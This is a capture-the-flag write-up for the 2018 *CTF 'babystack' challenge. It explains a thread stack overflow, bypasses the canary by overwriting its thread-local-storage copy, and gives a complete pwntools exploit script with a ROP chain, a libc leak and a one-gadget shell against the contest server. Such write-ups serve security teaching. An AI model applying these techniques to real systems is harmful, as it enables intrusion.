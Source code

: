 ```yaml
---
title:  Star Ctf 2018 Babystack
updated: 2018-05-01 16:10:33
---
```




- [babystack](#orgdffcbc7)



<a id="orgdffcbc7"></a>

# babystack

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

The challenge creates a thread and calls a function start<sub>routine</sub>

```c
void *__fastcall start_routine(void *a1)
{
  void *result; // rax@2
  __int64 v2; // rcx@4
  unsigned __int64 v3; // [sp+8h] [bp-1018h]@1
  char s; // [sp+10h] [bp-1010h]@1
  __int64 v5; // [sp+1018h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  memset(&s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v3 = get_int();
  if ( v3 <= 0x10000 )
  {
    get_inp(0, &s, v3);
    puts("It's time to say goodbye.");
    result = 0LL;
  }
  else
  {
    puts("You are greedy!");
    result = 0LL;
  }
  v2 = *MK_FP(__FS__, 40LL) ^ v5;
  return result;
}
```

Well there is a huge overflow in the stack . During the ctf giving a very large input makes the program segfault inside the get<sub>inp</sub> function which dereference a location on the stack and it points to the errno variable but our overflow overwrite this pointer and causes trouble , I just found the offset and gave it a pointer to BS's which will be allways null , thus the read will terminate without any error . Next is to bypass the canary

As the function is called on a different thread , the thread will have a new stack and the canary is placed on the thread local storage structure. and this structure will be on top of the stack which gives us a opportunity to overflow in this case .

```c
  typedef struct
  {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                 thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    uintptr_t pointer_guard;
    ...
  } tcbhead_t;
```

the fs segment register will always point to this . As it turns out i could not view the address which fs points with gdb , the `arch_prctl` syscall is responsible of setting address to these registers , by viewing the the argument of this syscall we can find the address of this structure .

    pwndbg> catch syscall 158
    Catchpoint 1 (syscall 'arch_prctl' [158])

this will stop the execution after the syscall has called

```nasm
pwndbg> reg
*RAX  0xffffffffffffffda
*RBX  0x1
*RCX  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
*RDX  0x7ffff7fc5010 ◂— 0x0
*RDI  0x1002
*RSI  0x7ffff7fc4700 ◂— 0x7ffff7fc4700
*R8   0xffffffffffffffff
 R9   0x0
*R10  0x22
*R11  0x206
*R12  0x22c3d0dcdbfa
*R13  0x10
 R14  0x0
*R15  0x7ffff7ffe170 ◂— 0x0
*RBP  0x7fffffffdbd0 —▸ 0x400040 ◂— 0x500000006
*RSP  0x7fffffffd9c0 ◂— 0x0
*RIP  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
pwndbg> x/10gx 0x7ffff7fc4700
0x7ffff7fc4700: 0x00007ffff7fc4700      0x00007ffff7fc5010
0x7ffff7fc4710: 0x00007ffff7fc4700      0x0000000000000000
0x7ffff7fc4720: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4730: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4740: 0x0000000000000000      0x0000000000000000
```

this is the address of the tls . the values are not populated yet .

```nasm
0x004009f2      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
0x004009fb      488945f8       mov qword [rbp - 8], rax
```

this is the code which copy the canary to the stack , so fs + 0x28 gives us the canary .

```nasm
pwndbg> x/4gx 0x7ffff7fc4700 + 0x28
0x7ffff7fc4728: 0x4339f83af5815e00      0xe535fd48502579dc
0x7ffff7fc4738: 0x0000000000000000      0x0000000000000000
```

now we can calculate the offset of the canary from the read buffer and overwrite it with a known values , then we can use the usual ROP techniques to get the shell .

```python

import hashlib,string

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    context.log_level = "debug"
    io = remote ("47.91.226.78", 10005)
else:
    context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    env = { 'LD_PRELOAD' : './libc.so.6-56d992a0342a67a887b8dcaae381d2cc51205253'}
    io = process('bs',env=env )
    # gdb.attach(io,'''
    # b * 0x0400A1A
    # b * 0x00400A9C
    # ''')

def send(size,inp):
        io.recvuntil("How many bytes do you want to send?\n")
        io.sendline(str(size))
        io.send(str(inp))
def calc():
    leak=io.recvuntil('\n').strip()
    print leak
    l=leak.split(" == ")
    l[0]=(l[0][12:]).replace(')','')
    print l
    s=0
    for i in string.printable:
        for j in string.printable:
            for k in string.printable:
                for m in string.printable:
                    if hashlib.sha256(i+j+k+m+l[0]).hexdigest() == l[1]:
                        print i+j+k+m
                        io.sendlineafter("Give me xxxx:",i+j+k+m)
                        return
                    s=s+1
                    if s%10000==0:
                        print s

# send(0x10000,p64([0x602f00]) * ( 0x10000 / 8 ))
# 0x00400c03: pop rdi; ret;
# 0x00400c01: pop rsi; pop r15; ret;

calc()

payload = "A" * 0x1008 + "\x00" * 0x8
payload += p64([0x602d00,
                0x00400c03,
                0x601fb0,
                0x004007C0,
                0x00400c03,
                0x0,
                0x00400c01,
                0x602d00,
                0x0,
                0x004007E0,
                0x00400b90,
])
                
payload = payload.ljust( 6080 , "\x00" ) + p64([0x602f00])
payload = payload.ljust(0x1800,"\x00")
send(len(payload) , payload)


io.recvline()
libc_leak = u64(io.recvline()[:-1].ljust(0x8,"\x00"))
libc = libc_leak - 0x0006f690
magic = libc + 0xf1147

log.info("Libc Leak : " + hex(libc))


payload = p64([0x602d00,
               magic
])
               
io.sendline(payload)

io.interactive()
```

